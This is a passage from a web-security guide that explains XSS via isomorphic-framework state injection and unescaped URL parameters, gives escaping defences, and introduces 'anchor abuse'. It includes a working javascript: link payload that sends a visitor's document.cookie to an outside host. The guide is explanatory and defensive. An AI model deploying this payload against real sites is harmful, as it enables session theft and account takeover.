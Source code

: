 Some time ago, on the rise of [isomorphic JavaScript](https://en.wikipedia.org/wiki/Isomorphic_JavaScript) frameworks it was the most often vulnerability that I was finding. Most of the isomorphic frameworks computed the page state on server and then included the computed state object into the page so the front-end part of the app does not have to re-compute the state again. So, even though the apps properly escaped the content before it was displayed, the apps were vulnerable because of that data insertion.

Another option to perform an XSS attack (although most of the modern browsers actually detect and prevent it) can be putting your code as a part of the URL (e.g. query string parameter) if you noticed that the web-site renders this part of the URL on the page with no escaping. Then just give this link to someone and the rest you know.

### Consequences

The attacker is able to:

* Get access to your user accounts (maybe you got lucky and none of them was an admin)
* Execute any client-side code for your web-site visitors, causing traffic to other web-sites or malicious messages.

### How to protect

Like it was with SQL injections, it's all about sanitizing user input but in this case you can choose when you actually do that: you can forbid users from inputting certain characters (which is in my opinion a bad user experience) or you can escape the data when you actually render it on the web-site using [HTML entities](https://en.wikipedia.org/wiki/List_of_XML_and_HTML_character_entity_references).

Also, try not to put any UGC into the page as a part of the code, if you can't overcome this requirement make sure that the `</script>` sub-string is split into `'</' + 'script>'`, for example.

## Anchor abuse

To be honest, I'm not sure if anyone call it like this, so I probably coined the term here.

I've already briefly mentioned this in the [Web-standards and APIs](#web-standards-and-apis) section but links on pages can be very dangerous. So, think twice before clicking a link.

### How to attack

This type of attack is related to XSS because if you let your users to put unfiltered UGC in `href` link attributes on your web-site, you basically let them run XSS.

```html
<a href="javascript:var e=document.createElement('img');e.src='https://rdner.de/inbox?sess='+encodeURIComponent(document.cookie);document.body.appendChild(e);">
  Click me!
</a>
```

Clicking this link means sending your cookies/session to an attacker.

Besides that, when you go to any website via a link, keep in mind that the new website always knows from what URL you came, because there is JavaScript API `document.referrer` to get this information. So, if there is something sensitive in your URL it will be exposed via links opening.
